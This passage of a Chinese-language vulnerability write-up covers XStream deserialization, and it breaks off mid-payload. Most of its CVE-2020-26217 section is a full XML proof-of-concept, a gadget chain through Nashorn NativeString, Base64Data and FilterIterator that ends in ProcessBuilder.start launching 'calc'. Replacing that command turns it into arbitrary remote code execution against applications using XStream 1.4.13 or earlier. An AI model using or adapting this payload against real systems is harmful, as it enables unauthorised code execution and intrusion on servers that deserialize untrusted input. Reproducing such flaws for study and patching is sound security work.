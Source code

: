 之前是用的sortedset标签，然后寻找到他的实现类是TreeMap类，这里直接用tree-map也可以，获取的实现类是他本身，转换器则是`TreeMapConverter`

# CVE-2020-26217远程代码执行漏洞

## 漏洞复现

影响范围<=1.4.13

复现环境：1.4.13

POC

```
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
```